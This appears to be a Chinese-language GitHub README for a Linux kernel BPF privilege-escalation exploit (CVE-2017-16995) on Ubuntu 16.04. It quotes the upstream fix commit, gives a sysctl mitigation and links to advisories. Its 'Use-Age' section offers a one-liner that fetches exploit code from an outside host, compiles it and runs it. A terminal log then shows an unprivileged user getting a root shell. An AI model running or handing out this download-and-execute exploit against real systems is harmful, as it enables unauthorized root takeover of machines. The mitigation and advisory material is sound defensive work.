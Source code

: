 # Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable
#####  Jann Horn发现在某些情况下，Linux内核中的Berkeley Packet Filter（BPF）不正确地执行了符号扩展check_alu_op()。本地攻击者可以使用它在系统上进行提权,获取root权限。

```
bpf: fix incorrect sign extension in check_alu_op()
Distinguish between
BPF_ALU64|BPF_MOV|BPF_K (load 32-bit immediate, sign-extended to 64-bit)
and BPF_ALU|BPF_MOV|BPF_K (load 32-bit immediate, zero-padded to 64-bit);
only perform sign extension in the first case.

Starting with v4.14, this is exploitable by unprivileged users as long as
the unprivileged_bpf_disabled sysctl isn't set.

Debian assigned CVE-2017-16995 for this issue.

v3:
 - add CVE number (Ben Hutchings)

Fixes: 484611357c19 ("bpf: allow access into map value arrays")
Signed-off-by: Jann Horn <jannh@google.com>
Acked-by: Edward Cree <ecree@solarflare.com>
Signed-off-by: Alexei Starovoitov <ast@kernel.org>
Signed-off-by: Daniel Borkmann <daniel@iogearbox.net>

```

#### 前提条件：unprivileged_bpf_disabled sysctl未设置
#### CVE 编号： CVE-2017-16995
#### 注意 如果不同的内核调整CRED偏移量+检查内核堆栈大小

### 漏洞测试环境
```

➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```

设置参数“kernel.unprivileged_bpf_disabled = 1”通过限制对bpf（2）调用的访问来防止这种特权升级
___________________________________________________________________________________________________________________________

root@Ubuntu# echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled

______________________________________________________________________________________________________________________________


```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```

### upstream44.c

```

sha256sum b71b2317c2f2461f0c25a650c9c6a4dd2399e5d7f800ec19822ba720a574030d

sha1sum d91b5dd8b074dd33bbb6994ab21af4e6279c9098

md5sum f38c046a22fd85e3aab3aa7ea4ef21a4

```

![](./0day.jpg)

```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c.1’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0

```

### 参考链接

https://access.redhat.com/security/cve/cve-2017-16995

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=95a762e2c8c942780948091f8f2a4f32fce1ac6f

https://security-tracker.debian.org/tracker/CVE-2017-16995

https://usn.ubuntu.com/3523-2/

https://www.securityfocus.com/bid/102288

https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f



